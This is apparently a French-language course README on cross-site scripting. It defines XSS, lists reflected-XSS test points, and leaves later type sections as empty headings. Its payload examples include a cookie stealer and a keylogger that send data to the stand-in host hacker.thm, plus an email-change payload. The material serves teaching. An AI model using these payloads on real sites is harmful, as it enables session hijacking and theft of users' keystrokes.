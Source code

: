 ![separe](https://github.com/studoo-app/.github/blob/main/profile/studoo-banner-logo.png)
# Failles XSS

[Retour](../README.md)

## Définition

Le Cross-Site Scripting, mieux connu sous le nom de XSS dans la communauté de la cybersécurité,
est classé comme une attaque par injection où du JavaScript malveillant est injecté dans une application web
dans l'intention d'être exécuté par d'autres utilisateurs.

## La notion de charge utile ou Payload

En XSS , la payload est le code JavaScript que nous souhaitons exécuter sur l'ordinateur cible.
La charge utile comporte deux parties : l’intention et la modification.

L'intention est ce que vous souhaitez que JavaScript fasse réellement, et la modification concerne
les changements apportés au code dont nous avons besoin pour le faire exécuter car chaque scénario est différent.

Voici quelques exemples d’ intentions XSS .

### Proof of Concept :

Il s'agit de la payload la plus simple où tout ce que vous voulez faire est de démontrer que vous pouvez
réaliser XSS sur un site Web. Cela se fait souvent en faisant apparaître une boîte d'alerte sur la page
avec une chaîne de texte, par exemple :

```javascript
<script>alert('XSS');</script>
```

### Session Stealing :

Les détails de la session d'un utilisateur, tels que les jetons de connexion, sont souvent conservés dans
des cookies sur la machine cible. Le JavaScript ci-dessous prend le cookie de la cible, encode le cookie en base64
pour garantir une transmission réussie, puis le publie sur un site Web sous le contrôle du pirate informatique
pour y être enregistré. Une fois que le pirate informatique dispose de ces cookies, il peut reprendre la session
de la cible et être connecté en tant qu'utilisateur.

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Keylogger :

Le code ci-dessous agit comme un enregistreur de frappe. Cela signifie que tout ce que vous tapez sur la page Web
sera transféré vers un site Web sous le contrôle du pirate informatique. Cela pourrait être très préjudiciable si
le site Web sur lequel la charge utile était installée sur les connexions utilisateur acceptées ou les détails de la carte de crédit.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) )}</script>
```

### Business Logic :

Cette charge utile est beaucoup plus spécifique que les exemples ci-dessus. Il s’agirait d’appeler une ressource
réseau particulière ou une fonction JavaScript.

Par exemple, imaginez une fonction JavaScript permettant de modifier l'adresse e-mail de l'utilisateur appelée user.changeEmail().
Votre charge utile pourrait ressembler à ceci :

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Maintenant que l'adresse e-mail du compte a changé, l'attaquant peut effectuer une attaque de réinitialisation du mot de passe.


## Les types de XSS

### Reflected XSS

Le XSS réfléchi se produit lorsque les données fournies par l'utilisateur dans une requête HTTP 
sont incluses dans la source de la page Web sans aucune validation.

**Exemple de scénario :**

un site Web sur lequel si vous saisissez une saisie incorrecte, un message d'erreur s'affiche. 
Le contenu du message d'erreur est extrait du paramètre d'erreur dans la chaîne de requête et est intégré directement dans la source de la page.

![reflected-xss-1](images/reflected-xss-1.png)

L'application ne vérifie pas le contenu du paramètre error, ce qui permet à l'attaquant d'insérer du code malveillant.

![reflected-xss-2](images/reflected-xss-2.png)

La vulnérabilité peut être utilisée selon le scénario de l'image ci-dessous :

![reflected-xss-3](images/reflected-xss-3.png)

**Impact potentiel :**

l'attaquant pourrait envoyer des liens ou les intégrer dans une iframe sur un autre site Web contenant une payload
JavaScript aux victimes potentielles, les incitant à exécuter du code sur leur navigateur, révélant potentiellement des informations sur la session ou le client.

**Comment tester Reflected XSS :**

Vous devrez tester tous les points d'entrée possibles ; ceux-ci inclus:

- Paramètres dans la chaîne de requête URL
- Chemin du fichier URL
- Parfois des en-têtes HTTP (bien que peu exploitables en pratique)


### Stored XSS

### DOM Based XSS

### Blind XSS
